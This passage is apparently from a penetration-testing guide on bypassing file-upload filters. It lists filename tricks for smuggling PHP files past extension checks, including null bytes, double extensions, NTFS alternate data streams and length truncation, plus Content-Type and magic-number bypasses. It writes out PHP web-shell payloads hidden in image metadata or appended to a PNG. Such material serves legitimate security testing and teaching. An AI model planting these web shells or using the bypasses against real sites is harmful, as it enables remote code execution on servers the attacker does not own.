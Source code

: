    * _file.php%0d%0a.png_
   * _file.phpJunk123png_
5. Add **another layer of extensions** to the previous check:
   * _file.png.jpg.php_
   * _file.php%00.png%00.jpg_
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension\*\* _**.php**_**, but** not necessarily ending in .php\*\* will execute code):
   * _ex: file.php.png_
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
8.  Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php

    ```
    # Linux maximum 255 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
    # Upload the file and check response how many characters it alllows. Let's say 236
    python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    # Make the payload
    AAA<--SNIP 232 A-->AAA.php.png
    ```

### Bypass Content-Type, Magic Number, Compression & Resizing

* Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
  1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
* Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**:\
  `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
  `\` or you could also **introduce the payload directly** in an image:\
  `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  * [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.